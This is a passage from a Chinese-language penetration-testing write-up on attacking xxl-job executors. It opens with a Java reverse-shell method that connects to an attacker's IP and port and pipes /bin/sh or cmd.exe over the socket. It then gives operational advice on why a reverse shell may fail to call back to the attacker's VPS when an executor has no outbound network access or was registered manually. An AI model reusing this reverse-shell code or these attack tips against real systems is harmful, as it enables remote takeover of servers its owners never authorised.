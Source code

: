 ```plain
    }

    public void reverseConn(String ip)
    {
        String ipport = ip;
        try
            {
                String ShellPath;
                if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
                    ShellPath = new String("/bin/sh");
                } else {
                    ShellPath = new String("cmd.exe");
                }
                Socket socket = new Socket(ipport.split(":")[0], 
                                           Integer.parseInt(ipport.split(":")[1]));
                Process process = Runtime.getRuntime().exec(ShellPath);
                new StreamConnector(process.getInputStream(), 
                                    socket.getOutputStream()).start();
                new StreamConnector(process.getErrorStream(), 
                                    socket.getOutputStream()).start();
                new StreamConnector(socket.getInputStream(), 
                                    process.getOutputStream()).start();
            }
        catch (Exception e)
            {
                e.printStackTrace();
            }
    }
}
```

## 2、反弹 shell

在实战中会碰到 executor 不出网的情况。即执行了反弹 shell 的命令之后在 vps 上未收到回显，这时就要去思考 executor 是否出网或者是注册 executor 是否失效。  
我们可以去执行器中查看其注册方式  
[![](assets/1709169576-d2fcdc66f0fcf2badf0774cbe2f704a4.png)](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701506339785-45cd9bbe-87d8-466f-b3d5-d8895fca2eac.png#averageHue=%2312a763&clientId=uf4676542-42d7-4&from=paste&height=580&id=u3994e289&originHeight=1159&originWidth=3833&originalType=binary&ratio=2&rotation=0&showTitle=false&size=143059&status=done&style=none&taskId=u8853cb0f-30d9-4611-a094-df28ec767e5&title=&width=1916.5)  
我们去正常来说自动注册的 executor 是不会出问题的。因为从代码实现来看 xxl-job 的 executor 每隔 2min 就会向 adminer 发送心跳证明其存活。而自己注册的可能就不一定可以打通。
